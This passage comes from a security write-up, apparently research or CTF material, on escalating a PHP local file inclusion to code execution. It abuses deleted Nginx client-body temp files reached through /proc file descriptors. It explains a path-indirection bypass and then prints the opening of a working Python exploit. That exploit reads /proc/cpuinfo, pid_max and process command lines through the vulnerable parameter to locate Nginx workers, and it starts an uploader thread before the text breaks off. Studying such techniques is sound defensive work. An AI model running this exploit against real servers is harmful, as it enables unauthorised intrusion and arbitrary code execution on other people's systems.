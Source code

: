 It's visible that **tempfile is unlinked immediately** after being opened by Nginx. Luckily **procfs can be used to still obtain a reference** to the deleted file via a race:

```
...
/proc/34/fd:
total 0
lrwx------ 1 www-data www-data 64 Dec 25 23:56 0 -> /dev/pts/0
lrwx------ 1 www-data www-data 64 Dec 25 23:56 1 -> /dev/pts/0
lrwx------ 1 www-data www-data 64 Dec 25 23:49 10 -> anon_inode:[eventfd]
lrwx------ 1 www-data www-data 64 Dec 25 23:49 11 -> socket:[27587]
lrwx------ 1 www-data www-data 64 Dec 25 23:49 12 -> socket:[27589]
lrwx------ 1 www-data www-data 64 Dec 25 23:56 13 -> socket:[44926]
lrwx------ 1 www-data www-data 64 Dec 25 23:57 14 -> socket:[44927]
lrwx------ 1 www-data www-data 64 Dec 25 23:58 15 -> /var/lib/nginx/body/0000001368 (deleted)
...
```

Note: One cannot directly include `/proc/34/fd/15` in this example as PHP's `include` function would resolve the path to `/var/lib/nginx/body/0000001368 (deleted)` which doesn't exist in in the filesystem. This minor restriction can luckily be bypassed by some indirection like: `/proc/self/fd/34/../../../34/fd/15` which will finally execute the content of the deleted `/var/lib/nginx/body/0000001368` file.

## Full Exploit

```python
#!/usr/bin/env python3
import sys, threading, requests

# exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance
# see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details

URL = f'http://{sys.argv[1]}:{sys.argv[2]}/'

# find nginx worker processes 
r  = requests.get(URL, params={
    'file': '/proc/cpuinfo'
})
cpus = r.text.count('processor')

r  = requests.get(URL, params={
    'file': '/proc/sys/kernel/pid_max'
})
pid_max = int(r.text)
print(f'[*] cpus: {cpus}; pid_max: {pid_max}')

nginx_workers = []
for pid in range(pid_max):
    r  = requests.get(URL, params={
        'file': f'/proc/{pid}/cmdline'
    })

    if b'nginx: worker process' in r.content:
        print(f'[*] nginx worker found: {pid}')

        nginx_workers.append(pid)
        if len(nginx_workers) >= cpus:
            break

done = False

# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
    print('[+] starting uploader')
```